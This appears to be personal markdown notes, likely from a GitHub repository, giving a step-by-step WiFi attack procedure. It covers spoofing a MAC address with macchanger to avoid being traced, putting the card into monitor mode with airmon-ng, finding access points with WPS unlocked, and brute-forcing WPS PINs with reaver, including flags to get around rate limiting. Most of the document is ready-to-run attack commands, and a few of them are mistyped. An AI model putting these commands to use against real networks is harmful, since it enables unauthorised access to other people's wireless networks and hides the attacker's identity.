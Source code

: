 CHANGE MAC ADDRESS for protection

- use `macchanger`

### Steps...

#### Preparation

1. use `macchanger` to change ur mac address
   - for protection
   - need `NetworkManager start` & `ifconfig wlan0 up`
   - ex: `macchanger -s wlan0` will show mac address
   - ex: `macchanger -a wlan0` will change to random address of same kind
2. `ifconfig wlan0 down`
   - taking wireless card offline
3. `airmon-ng start wlan0`
   - start card in monitor mode
4. `ifconfig wlan0 up`
   - restart network card
5. `airmon-ng check wlan0`
   - see processes running
6. `airmon-ng check kill`
   - kill processes
7. `airmon-ng check wlan0`
   - re-check - make sure no more processes

#### Exploring wireless

1.  `wash -i wlan0` (WiFi Protected Setup Scan Tool)
    - see access points and if WPS is locked
2.  `airomon-ng wlan0`
    - see AP & signal strength
3.  choose AP to attack based on AP WPS not locked & signal strength
4.  `reaver -b AP_MAC -i INTERFACE -vv`
    - ex: `reaver -b B0:BE:76:E0:3D:AB -i wlan0 -vv`
    - this starts reaver becoming associated w AP and trying pins
5.  PROBLEMS
    - If you get “[!] WARNING: Detected AP rate limiting, waiting 60 seconds before re-checking” there may be ways around
    - Limit reaver so can only do a certain amount
      - add flag `-r 2:60` (means 2 tries per 60 sec). Can change tries or seconds
      - ex: `reaver -b B0:BE:76:E0:3D:AB -i wlan0 -r 2:60 -vv`

</br>

## `aircrack-ng`

1. Wireless sniffer and WEP/WPA-PSK key cracker. This is a whole package, a suite of tools. Another tool is reaver

2. **Monitor mode**

- Picks up packets sent from access point to devices, and devices to access point
- As opposed to other mode. Regular mode just pays attention to what is for them
